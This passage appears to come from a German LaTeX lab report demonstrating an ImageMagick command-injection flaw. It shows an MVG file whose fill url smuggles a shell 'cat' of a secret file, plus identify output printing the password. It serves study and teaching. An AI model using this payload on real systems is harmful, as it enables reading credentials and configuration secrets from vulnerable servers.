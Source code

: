 \newpage
\subsection{Zweites Beispiel: Auslesen einer geheimen Datei}\label{subsec:zweites-beispiel:-auslesen-einer-geheimen-datei}

Das erste Beispiel hat das Problem gut gezeigt, allerdings nicht die problematische Auswirkung der Sicherheitslücke.
Im nächsten Beispiel soll der Inhalt einer privaten Passwort-Datei angezeigt werden.
Vergleichbar ist dies mit einer Config-Datei, in der beispielsweise Zugangsdaten zu einer Datenbank hinterlegt sind.\\

Hierfür wird folgende Datei erstellt und befüllt:

\begin{lstlisting}[language=Bash, caption=Beispiel 2,label={lst:bsp2}]
> vim test2.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "/home/max/secretFile)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Nach dem ausführen erscheint in der Console der Inhalt der geheimen Datei:\\ => "`MY\_SECRET\_PASSWORD"'

\begin{lstlisting}[language=Bash, caption=Beispiel 2 - Identify,label={lst:bsp2identify}]
> identify test2.mvg
MY_SECRET_PASSWORD
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "SECRET_FILE' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
exploit.mvg MVG 640x480 640x480+0+0 16-bit sRGB 153B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
root@vm-its:~/install/6.8.0/code/case2#
\end{lstlisting}
\vspace{5mm}
